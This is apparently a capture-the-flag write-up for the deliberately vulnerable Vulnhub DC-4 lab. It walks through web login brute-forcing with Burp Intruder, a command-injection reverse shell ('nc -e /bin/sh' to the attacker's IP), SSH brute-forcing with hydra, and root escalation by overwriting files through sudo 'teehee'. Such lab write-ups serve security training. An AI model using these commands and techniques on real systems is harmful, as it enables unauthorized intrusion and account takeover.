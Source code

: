 ```yaml
---
title:     "Vulnhub - DC 4"
tags: [easy,hydra,intruder]
categories: Vulnhub
---
```


![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc4/1.1.png)
We are going to pwn DC 4 by DCAU7 from Vulnhub


## Description
>DC-4 is another purposely built vulnerable lab with the intent of gaining experience in the world of penetration testing.
Unlike the previous DC releases, this one is designed primarily for  beginners/intermediates. There is only one flag, but technically,  multiple entry points and just like last time, no clues.
Linux skills and familiarity with the Linux command line are a must, as is some experience with basic penetration testing tools.
For beginners, Google can be of great assistance, but you can always  tweet me at @DCAU7 for assistance to get you going again. But take note:  I won't give you the answer, instead, I'll give you an idea about how  to move forward.


Download Link: <https://www.vulnhub.com/entry/dc-4,313/>

Lets Begin with our Initial Scan

## Nmap Scan Results

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Looks like only HTTP port is open so lets start our Gobuster

## Gobuster Result

```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.0.2.8
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2019/11/26 19:35:19 Starting gobuster
===============================================================
/css (Status: 301)
/images (Status: 301)
/index.php (Status: 200)
===============================================================
2019/11/26 19:35:20 Finished
===============================================================
```

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc4/1.png)

It looks like login Page 
So i tried some normal sql injection but none worked so lets try bruteforce
We can use Burp Intruder for that

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc4/2.png)

Attack type : Cluster Bomb

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc4/3.png)

Now in payload , load wordlist and start attack!

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc4/4.png)

This one gives different length it might be the password <br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc4/5.png)

And yes I logged in.
After login I got a page Command.php<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc4/6.png)<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc4/7.png)

## Getting Shell

It looks like , it executes system commands.
So I intercept the command with burp and got a reverse shell.
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc4/8.png)

> nc -e /bin/sh 10.0.2.18 1234 


![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc4/9.png)

We got a Shell!!

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc4/10.png)

So while searching for anything usefull i found ``old-passwords.bak``

Since i found it in jim directory, lets bruteforce with ``jim``

## Getting User Jim

Lets start bruteforcing the ssh port using hydra

> hydra - a very fast network logon cracker which supports many different services

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc4/11.png)

we found the password is ``jim:jibril04``

Found some users too

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc4/12.png)

## Getting User Charles

While Checking jim directory there is ``mbox``

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc4/13.png)

Since it looks like mail we check ``/var/mail``

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc4/14.png)

It gives password for ``charles`` I su to charles

## Privilege Escalation

``sudo -l`` shows we can run ``teehee`` with root permission

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc4/15.png)

It looks like we can overwrite any file so i created new user with root permission without password!

Got ROOT !!

``Flag``

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc4/16.png)






